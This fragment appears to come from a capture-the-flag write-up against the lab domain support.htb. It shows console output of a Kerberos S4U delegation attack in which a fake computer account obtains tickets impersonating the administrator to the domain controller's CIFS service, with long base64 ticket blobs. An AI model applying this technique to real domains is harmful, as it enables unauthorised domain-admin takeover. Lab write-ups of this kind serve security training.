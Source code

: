 ```bash
      AZr+StVFOD2FkctzvCTRU6b7UpJdctcY/RKxCHEqUoIwpILhUJMwkdI/WFSDpfxORvaAN2VjL6hiY24X
      wE9GbePpQTEeYsVWRDBwp8pyJkYShWuhwtWzXGzWGX3WXN34GGPsRhMo3weFhql0ZtA5H3QfqsC2VMLC
      NkWq25wjudssFufFJTMLisJtoUgHRvwyTFNIYnUxsHE6Xla/AcFUW02nmIlE1h/0vWx8yRDak+BpD0Ju
      jLLUWgU7BAiyGcczYbUDriwn/Sd4PvL/U7B1eG0XX9K/awy22B6kb5YUt15KLKOWA5gV/A5m+ZdGxGkl
      6nIocCmizwyeQeZWYMCAVgZbaRiBELi4YXavXdDn5vEvdZPbP2QQXGrpxaAA8eKjyVyntrlYKlzgpLJb
      +pD6yHuNOC2O2mhHhOFsn1JHgUps5KjqfngnD79vR3ufbpwqwer5MGmaJOk8QkXWqVebuDO5Cqo36mWe
      H3RVrFuk6688+UHEYDUs6J0j9XEVLeDJz2s4S2F9/W9qCUJmQv56FdYXm6l3o7bWua0cdSocNzlLrCQX
      Mok6Lg6TtVxiaZiW/VNaqH2682j1jIUQjHJPYculMDAmjhFxJVYiB3BpNUhd5EPVTJnV9eWmUYrKpTBY
      En45ALLmhyh666amMuljZSgkrzATUq4US3vOwFmBG12GehJEvVKndkS0ffVR+ki8Y7aIo4HcMIHZoAMC
      AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ7AHI9dH0yk8aIzP73NLR2qENGwtTVVBQ
      T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjQwNjA5
      MTQwMjQ4WqYRGA8yMDI0MDYxMDAwMDI0OFqnERgPMjAyNDA2MTYxNDAyNDhaqA0bC1NVUFBPUlQuSFRC
      qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


[*] Action: S4U

[*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      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
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGeDCCBnSgAwIBBaEDAgEWooIFijCCBYZhggWCMIIFfqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggVDMIIFP6ADAgESoQMCAQaiggUxBIIFLdgK1ZVp
      Q2h2wjozs7PbzzHcgssNrRRUFViu4UuLyydlKZFZp+geeXm0BDfHSzMXvbKD2LP5ZLrf2H+gMbUEIyFx
      y0FJCm3Ev9a6mXAOJJKHEWvbr4ItCcKj9tL9yJ/O47K/zF0JsHdsiotjA3ZC5rrUwN2teUnGXyXnZCDW
      j8XIGoEJGdhrR1Q5530fKd3+Tr9PbQpzjUsQafFDGiZDnmkZcKAPWTcaQfcQbmxizEXqqTYQ2YKwjBBj
      XGxeWOrcf5JAExDhTEwTgSuD9U/YC7fZLAiX2MykY4cQ3BGc7VFjynthjBq07Gx89LU/sa8ej/sZe0Tf
```